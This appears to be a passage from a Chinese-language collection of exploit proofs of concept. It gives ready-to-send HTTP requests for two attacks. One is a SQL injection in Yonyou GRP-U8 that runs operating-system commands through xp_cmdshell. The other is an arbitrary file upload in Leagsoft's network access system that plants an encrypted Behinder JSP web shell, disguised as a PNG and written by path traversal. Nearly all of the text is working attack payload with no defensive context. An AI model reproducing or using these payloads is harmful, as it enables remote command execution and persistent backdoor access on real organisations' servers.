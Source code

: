 **用友 GRP-U8 SQL 注入**
- POC | Payload | exp
    - [用友GRP-U8 SQL注入](https://www.hedysx.com/2599.html)
        ```
        POST /Proxy HTTP/1.1
        Accept: Accept: */*
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
        Host: host
        Content-Length: 357
        Connection: Keep-Alive
        Cache-Control: no-cache

        cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
        ```

---

## 联软准入系统

**联软准入系统任意文件上传**
- POC | Payload | exp
    - [联软准入系统任意文件上传](https://www.hedysx.com/2627.html)
        ```
        POST /uai/download/uploadfileToPath.htm HTTP/1.1
        HOST: xxxxx

        -----------------------------570xxxxxxxxx6025274xxxxxxxx1
        Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
        Content-Type: image/png

        <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

        -----------------------------570xxxxxxxxx6025274xxxxxxxx1
        Content-Disposition: form-data; name="uploadpath"

        ../webapps/notifymsg/devreport/
        -----------------------------570xxxxxxxxx6025274xxxxxxxx1--
        ```
